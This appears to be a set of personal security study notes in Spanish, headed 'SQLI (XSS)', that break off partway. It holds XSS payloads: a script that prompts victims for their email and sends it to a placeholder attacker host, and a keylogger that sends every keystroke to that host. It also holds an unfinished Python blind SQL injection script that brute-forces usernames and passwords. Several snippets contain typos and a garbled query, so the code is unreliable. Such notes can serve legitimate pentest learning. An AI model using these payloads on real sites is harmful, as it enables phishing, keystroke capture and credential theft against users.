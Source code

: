 ![[Pasted image 20240208124843.png]]


![[Pasted image 20240208125612.png]]


![[Pasted image 20240208125442.png]]


### SQLI (XSS)

xss
```python
<script>alert("XSS")</script>
```
xss
```python
<script>
var email= prompt("introduce tu correo");

if (email==null || email == ""){
	alert("Es necesario introducir un correo valido para visualizar el post"); 
} else {
	fetch("http://MI-IP:PUERTO/?email=" + email);
}
</script>
```

xss keylogger
```python
<script>
	var k = "";
	document.onkeypress = funtion(e){
	e = e weindow.event;
	k += e.key
	var i = new Imagen();
	i.src = "http://MI-IP:PUERTO/" + k;
	}
</script>
```

```python
 #!/usr/bin/python3
import requests
import signal
import sys
import time
import string
from pwn import *

def def_handler(sig, frame):
	print("\n\n[!] Saliendo...\n")
	sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
Characters = string.printable

def makeSQLI():

	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando progreso de fuerza bruta")

	time.sleep(2)

	p2 = log.progress("Datos extraidos")

	extracted_info = ""

	for position in range(1, 200)
		for character in range(33, 126):
			sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(username,0x3a,password)from information_schema.schemata),%d,1))from users where id = 1)=%d)"
			
```